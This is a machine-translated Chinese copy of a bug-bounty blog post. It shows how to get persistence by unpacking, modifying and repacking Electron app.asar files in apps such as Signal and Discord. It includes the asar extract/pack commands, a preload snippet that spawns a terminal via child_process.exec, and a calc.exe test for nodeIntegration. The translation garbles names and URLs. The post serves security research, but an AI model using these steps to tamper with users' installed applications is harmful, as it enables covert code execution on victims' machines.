




# Bug Bounty 提示和获得电子应用程序的持久性

> 原文：<https://infosecwriteups.com/bug-bounty-tips-and-getting-persistence-with-electron-applications-c538d4dda446?source=collection_archive---------1----------------------->

## 通过重新打包 asar 文件、电子应用程序和其他 bug 赏金提示。主演有《信号》、《不和》、《诺德帕斯》等

对于 discord DLL 劫持漏洞，我注意到一种新的文件类型，我无法放置 **.asar.** 这篇文章解释了 asar 文件，如何使用它们获得轻松的持久性，以及如何在其中找到其他漏洞。

# 什么是？asar 文件。

但首先什么是。asar 文件及其用途。下面的 GitHub 页面给出了一些解释:

[](https://github.com/electron/asar) [## GitHub-electronic/asar:带有索引的简单扩展的类似 tar 的归档格式

### 带有索引的简单扩展的类似焦油的存档格式

github.com](https://github.com/electron/asar) 

这是一种专门用于电子档案的档案格式。可以将您的应用程序打包成这种格式，以后可以用来运行您的电子 npm 应用程序。

有趣的是拆包和打包功能。这样就可以打包和解包一个. asar 文件，从而检查应用程序。新的攻击方式开始了。

## 可能的目标

首先，我开始寻找使用 asar 文件扩展名的应用程序，其次是 discord。我在我的机器上找到了一些:

1.  松弛的
2.  组
3.  信号
4.  诺德帕斯
5.  邮递员
6.  Dropbox

除了 dropbox 之外，所有这些文件都位于%Appdata%/local 目录中，因此这些文件对于给定用户是可写的。Dropbox 将它放在 Program Files 目录中，这对于普通用户来说更难操作，因此不是真正的目标。

因为我已经在我的设备上安装了 npm，所以我已经准备好了。在这篇文章中，我将以 signal 为例，但它适用于所有经过测试的应用。

# 拆包信号。asar 文件

信号的 asar 文件位于**% APPDATA % \ Local \ Programs \ Signal-desktop \ resources**

在那里，可以运行以下命令来提取 app.asar 文件，并将其内容写入名为 destfolder 的文件夹中

```
npx asar extract app.asar destfolder
```

如下图所示，这会打开信号应用程序，并显示完整的客户端应用软件。这为多重测试提供了空间。心中第一:坚持。我们能否添加任意代码，重新打包并运行它，而不让应用程序检查错误，或者不让 windows defender 或 Bitdefender 收到警报？



## 获得持久性

通过快速的谷歌搜索，我找到了某个邪恶电子应用的[代码](https://github.com/parsiya/evil-electron/blob/master/preload.js)。使用的代码如下所示。

```
// Detect the operating system.
var platform = require('process').platform;

// Commands
const win32Command = "start cmd.exe";
const darwinCommand = "'/System/Applications/Terminal.app/Contents/MacOS/Terminal',function(){}";
const linuxCommand = "gnome-terminal"; // Issue#2: Find a `universal` Linux command.

var command = "";

console.log(`Running on ${platform}`);

switch (platform) {
    case "win32":
        command = win32Command;
        break;
    case "darwin":
        command = darwinCommand;
        break;
    case "linux":
        command = linuxCommand;
        break;
}

console.log(`Command to be executed: '${command}'`);

if (command === "") {
    console.log(`Operating system '${platform}' is not supported.`);
} else {
    // Spawn a command prompt.
    require('child_process').exec(command);
}
```

根据受害者使用的操作系统，该应用程序将生成所需的终端。可爱的跨平台执行。

在提取的文件夹中，我搜索 package.json，它将给出关于应用程序启动功能的信息。



在 Signals 实例中，主应用程序位于 app/main.js 中。**【显示窗口】**函数和上面声明的变量。



并使用以下命令重新打包已更改的 destfolder:

```
npx asar pack destfolder app.asar
```

现在，每当受害者启动信号，它将启动一个独立于信号的 cmd 窗口。它也不会是信号进程的子进程，而是一个没有父进程的进程。



当然，在当前状态下，受害者会发现有一个 cmd shell 正在启动，应该实施一种更安静的方法。

即使目标系统上尚未安装 npm，也可以使用 app.asar 的恶意副本来覆盖该应用程序。即使有问题的应用程序已经在使用中！它不会给出任何错误或警告。

## Bugbounty 的其他类型的攻击

坦率地说，以上攻击更多的是针对持久性，但是应用程序也可以用不同的方法进行测试:

要找到秘密，你可以使用下面的单词表

[https://gist . githubusercontent . com/EdOverflow/8 BD 2 faad 513626 c 413 b 8 fc 6 e 9d 955669/raw/06 A0 ef 0 FD 83920d 513 c 65767 aae 258 ECF 8382 BDF/gist file 1 . txt](https://gist.githubusercontent.com/EdOverflow/8bd2faad513626c413b8fc6e9d955669/raw/06a0ef0fd83920d513c65767aae258ecf8382bdf/gistfile1.txt)

对于安全扫描应用程序，可以使用电负性。该应用程序将扫描应用程序的默认错误。【https://github.com/doyensec/electronegativity】T5


当然，你也可以尝试启用 devtools，拦截流量。这将在下面的文章中详细解释。

[https://blog . doyensec . com/2018/07/19/instrumenting-electronic-app . html](https://blog.doyensec.com/2018/07/19/instrumenting-electron-app.html)。

如果你能打开开发工具。*使用 ctrl + shift + i 快速检查。*您可以在控制台中验证是否可以运行计算过程。如果是这样的话，你离 RCE 就差一个 XSS 了。

测试代码:

```
require('child_process').exec('C:/Windows/System32/calc.exe')
```

这也可以在代码中进行验证，以检查 nodeIntegration 是否设置为 true。从版本 5.0 开始，默认情况下这是禁用的，理由很充分！

```
webPreferences: {
            nodeIntegration: true
        }
```

利用客户端应用程序的详细信息，还可以检查 npm 的“依赖性混淆”攻击或其他供应链攻击。Snyk 的一个很棒的博客可以在。

[https://snyk . io/blog/NPM-安全-预防-供应链-攻击/](https://snyk.io/blog/npm-security-preventing-supply-chain-attacks/)

**结论**

。asar 是一种全新的体验，上面提到的技巧可以提供一些简单的持久性。没有哈希验证来验证 app.asar 在这些大型应用程序中是否发生了更改，因此检测是有限的。坦白说，我觉得很有趣。然而，我还没有用 XDR 测试它，并期望他们过滤掉这些攻击。攻击媒介只对持久性方法感兴趣。因此，您已经需要访问设备本身来执行这些攻击。

不过为了以防万一，任何红队相关的活动我都会带上攻击方法。

希望其他的技巧能帮你找到一些其他的 bug。

如果你想讨论任何与信息安全相关的话题，我在 LinkedIn:[https://www.linkedin.com/in/bobvanderstaak/](https://www.linkedin.com/in/bobvanderstaak/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！